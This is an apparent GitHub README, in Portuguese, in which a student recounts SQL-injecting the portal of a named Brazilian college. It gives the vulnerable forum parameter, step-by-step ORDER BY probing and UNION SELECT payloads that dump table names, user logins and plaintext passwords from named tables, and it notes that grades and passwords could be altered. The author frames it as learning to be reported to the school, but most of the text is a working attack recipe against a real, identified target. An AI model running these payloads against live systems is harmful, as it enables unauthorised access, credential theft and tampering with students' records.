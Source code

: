 # **SQL Injection - FACULDADE DE AMERICANA**

SQL Injection é um método de invasão na qual códigos/comandos SQL são injetados no
banco de dados através de entradas de dados ou parâmetros. Minha intenção não foi de
invadir, mas sim de testar conhecimentos que adquiri na última semana e posteriormente
enviar o que descobri para a faculdade.

## **Informações úteis**

- Total de tabelas encontradas: 443;

- Total de colunas encontradas: 1883;

- Versão do SQL: 5.5.62-cll.

- Todas as páginas principais possuem vulnerabilidades, principalmente por terem um
parâmetro frame na URL que não é “sanitizado” devidamente, porém nenhuma
retornou todos as tabelas/colunas/informações do banco de dados SQL.

- A maioria (se não todos) os botões/links que possuem parâmetros para levar o usuário
para outra página possuem vulnerabilidades a SQL injection.

- A página de “esqueci minha senha” contém vulnerabilidades, porém não consegui
injetar SQL, ela só deu erro de sintaxe e o nome das tabelas que o servidor seleciona
para procurar pelo usuário. Suponho que o servidor substitui o ‘ por um \’.

- A página de fórum possui uma vulnerabilidade que me deu acesso à todas as
tabelas/dados do servidor (incluindo notas, usuários e senhas em texto plano e que
não contém nenhum tipo de criptografia/método de segurança) que podem ser
facilmente alterados.

## **Scripts** 

O portal da FAM não me deixa mudar parâmetros direto na URL, então para isso criei
uma extensão (funciona somente no Mozilla Firefox) que injeta elementos HTML e
JavaScript (cliente-side) no topo do portal.

![portal](https://drive.google.com/uc?export=view&id=1GuOkR6gYR2s0ERdJIZACez_kixlY2FYd)

A caixa de texto será utilizada para escrever o código que será injetado, o botão pegará o
texto e injetará no href (parâmetro de redirecionamento de um link) do < INJECT >
utilizando como base, o botão do fórum e seus parâmetros (será explicado no próximo
tópico).
Também utilizei um script em Python para extrair o nome das tabelas e colunas da página
HTML. O script lê todas as linhas do arquivo HTML salvo manualmente e verifica se
existe o texto “MensagensAtv” e depois verifica a seguinte expressão regular:

```
  regex_pattern = r'31 de dezembro de 1969, ([-_A-Za-z0-9]+)</td>'
```

Após todas as linhas serem lidas, o programa cria um arquivo .txt e escreve todos os
resultados encontrados pela expressão regular.

## Vulnerabilidades

Embora todas as páginas que possuem parâmetros que não serão limpos possuem uma
vulnerabilidade, a página com maior risco foi o fórum. Clicando no fórum, abrindo uma
postagem aleatória (no meu caso foi a postagem COMUNIDADE EAD com ID: 7973).
No campo de “Ordenar por”, selecione “filtrar por usuário” e clique em algum botão
escrito “responder”. Clicando no botão, um erro de sintaxe SQL aparecerá na tela.

![portal](https://drive.google.com/uc?export=view&id=1U2tHfoWovv7DRS5_klM64moD4v-kaFhk)

Se escrevermos qualquer coisa no parâmetro “filter=” do botão do fórum, o SQL
interpretará como parte do código e assim podemos injetar códigos que originalmente não
estavam no SQL da FAM.
Utilizando minha extensão, qualquer coisa que for escrita no campo de texto será injetada
no servidor SQL. Para descobrirmos todos os nomes da tabela por exemplo, primeiro
precisamos do total de colunas, para isso é preciso testar manualmente de um a um o
comando:

```
  'string'order by X-- -%
```

Onde X é um número. Caso o SQL não retorne nenhum erro, então a coluna existe e
podemos passar para o próximo número (X+1), caso contrário, a coluna não existe e o
número de colunas é X-1.
Sabendo o número de colunas, podemos assim injetar mais códigos mais graves como o
de pegar todos os nomes de tabelas existentes:

``` 
  'string' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,concat(coluna) from tabela LIMIT 1, 500;-- -%
```

O resultado desta query será várias postagens desconhecidas com a data de 31, de
dezembro de 1969 (epoch padrão de um computador) acompanhadas do nome das
tabelas.

![portal](https://drive.google.com/uc?export=view&id=1zN9PRl5DCCrDirpysKyPmXxMgEnG1rGY)

Utilizando o meu script em Python, podemos retirar o nome de todas as tabelas e criar
um arquivo com elas. O resultado será assim:

![portal](https://drive.google.com/uc?export=view&id=1rRq6IAuhdEcEBxszi-2XFzL1ZNSzNDU9)

Como sabemos o nome de todas as tabelas, agora precisamos de suas respectivas
colunas. Podemos pegá-las usando o seguinte comando:

```
 'string' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,column_name from information_schema.columns;-- -%
```

O script também consegue filtrar o nome de colunas.

![portal](https://drive.google.com/uc?export=view&id=1RdeAyAOW-CM5ounCEofAQ5oWPuMLWz_t)

Com o nome das colunas e tabelas, podemos injetar o mesmo código, porém selecionando
a coluna da tabela que queremos para conseguir qualquer informação. Podemos por
exemplo, listar todos os usuários registrados no site através de:

```
  'string' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,login_user from portal_cadastro_dados;-- -%
```

Ou todas as senhas dos usuários, que por sinal estão em texto sem nenhum tipo de
criptografia/hash ou nenhum tipo de segurança.

```
  'string' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,login_passwd from portal_login;-- -%
```

Além de conseguir acesso a dados e informações, também é possível editar, remover e
adicionar dados nas tabelas (notas, faltas, senhas, etc).

<br/>
<br/>
<br/>
<br/>


